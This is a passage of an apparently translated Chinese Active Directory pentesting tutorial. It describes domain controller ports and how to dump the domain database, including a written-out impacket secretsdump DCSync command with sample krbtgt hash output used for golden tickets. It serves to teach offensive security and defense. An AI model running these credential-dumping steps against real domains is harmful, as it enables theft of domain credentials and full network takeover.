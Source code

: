 这个输出显示了很多开放的端口。下面是每个端口所提供的服务的简要描述：
- 42 =&gt; [WINS]：中央服务，用来解析 NetBIOS 名到 IP 地址。
- 53 =&gt; [DNS]：解析 DNS 地址。
- 88 =&gt; [Kerberos]：为用户提供 Kerberos 认证。
- 135 =&gt; [RPC Endpoint Mapper]：用于寻找不同 RPC 服务的 RPC 端点的 RPC 服务。
- 139 =&gt; [NetBIOS] Session Service：Windows 计算机使用的 TCP 的一个旧的替代品。它允许传输 SMB 或 RPC 等协议。
- 389 =&gt; [LDAP]：查询或编辑域数据库。
- 445 =&gt; [SMB]：用来在计算机之间共享文件。也允许通过命名的管道进行 RPC 调用。
- 464 =&gt; [kpasswd]：用于更改用户密码的 Kerberos 服务。
- 593 =&gt; [RPC]：在 HTTP 上的端点映射器。
- 636 =&gt; [LDAPS]：LDAP with SSL。
- 3268 =&gt; [LDAP] [Global Catalog]：查询 Global Catalog 的服务。
- 3269 =&gt; [LDAPS] [Global Catalog]：查询 Global Catalog 的服务 LDAPS。
- 5985 =&gt; [WinRM]：用 CIM 对象或 Powershell remoting 远程管理机器的服务。
- 9389 =&gt; [ADWS]：查询或编辑域数据库的 Web 服务。
- 49152-65535 [RPC] Endpoints：随机的 RPC 端口，不同的 RPC 服务 / 接口在这里监听客户端。
根据 DC 的配置，你也可以发现 3389 端口开放，它允许 RDP 连接或[许多其他服务](https://docs.microsoft.com/en-US/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements)。

### **<a class="reference-link" name="Dump%20%E5%9F%9F%E6%95%B0%E6%8D%AE%E5%BA%93"></a>Dump 域数据库**

如果你成为了域的管理员，你可能想 dump 域控制器数据库的内容，以便读取一些敏感数据，如 `krbtgt`用户凭证，以便创建[金票](https://en.hackndo.com/kerberos-silver-golden-tickets/)。

为了提取数据库的内容，你可以登录域控制器，用 [ntdsutil](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc753343%EF%BC%88v=ws.11) 或 [vssadmin](https://docs.microsoft.com/en-gb/windows-server/administration/windows-commands/vssadmin) 在本地进行 NTDS [Dump](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration#no-credentials-ntdsutil)，或者你可以用 [mimikatz lsadump::dsync](https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump#dcsync) 命令或 impacket [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) 脚本，进行远程 [dcsync攻击](https://adsecurity.org/?p=1729)。

发起 DCSync 攻击要小心，因为如果你请求一个大域中的所有凭证，正在响应的 DC 可能会耗尽内存并崩溃！！

> DCSync attack with secretsdump to retrieve krbtgt credentials

```
$ secretsdump.py 'contoso.local/Administrator@192.168.100.2' -just-dc-user krbtgt
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fe8b03404a4975e7226caf6162cfccba:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:5249e3cf829c979959286c0ee145b7e6b8b8589287bea3c83dd5c9488c40f162
krbtgt:aes128-cts-hmac-sha1-96:a268f61e103134bb7e975a146ed1f506
krbtgt:des-cbc-md5:0e6d79d66b4951cd
[*] Cleaning up...
```



## Windows 计算机


[dc01]: PS C:\Users\Administrator\Documents&gt; whoami
[dc01]: PS C:\Users\Administrator\Documents&gt; hostname